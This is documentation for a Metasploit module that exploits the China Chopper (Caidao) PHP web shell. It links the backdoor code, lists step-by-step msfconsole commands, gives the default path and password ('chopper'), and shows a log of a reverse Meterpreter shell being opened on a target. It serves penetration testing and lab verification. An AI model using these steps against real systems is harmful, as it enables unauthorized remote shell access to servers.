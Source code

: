 China Chopper Caidao PHP Backdoor or simply [Chinese Caidao](https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html) is a webshell manager coded in PHP.

## Vulnerable Application

Here is the [PHP code](https://github.com/rapid7/metasploit-framework/files/430643/caidao.zip) of the backdoor that you can use and save it as caidao.php.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/caidao_php_backdoor_exec`
  4. Do: `set rport port`
  5. Do: `set rhost ip`
  6. Do: `check`
```
[+] 192.168.1.103:80 - The target is vulnerable.
```
  8. Do: `exploit`
  9. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/caidao.php`, which is the common filename of the backdoor.
  
  **PASSWORD**
  
  PASSWORD by default is `chopper`, which is the password of the backdoor.

## Demonstration

```
msf exploit(caidao_php_backdoor_exec) > exploit

[*] Started reverse handler on 192.168.1.108:4444 
[*] Sending stage (33068 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.108:4444 -> 192.168.1.103:42349) at 2015-11-02 09:05:54 +0000

meterpreter > sysinfo 
Computer    : kali
OS          : Linux kali 3.14-kali1-686-pae #1 SMP Debian 3.14.5-1kali1 (2014-06-07) i686
Meterpreter : php/php
```
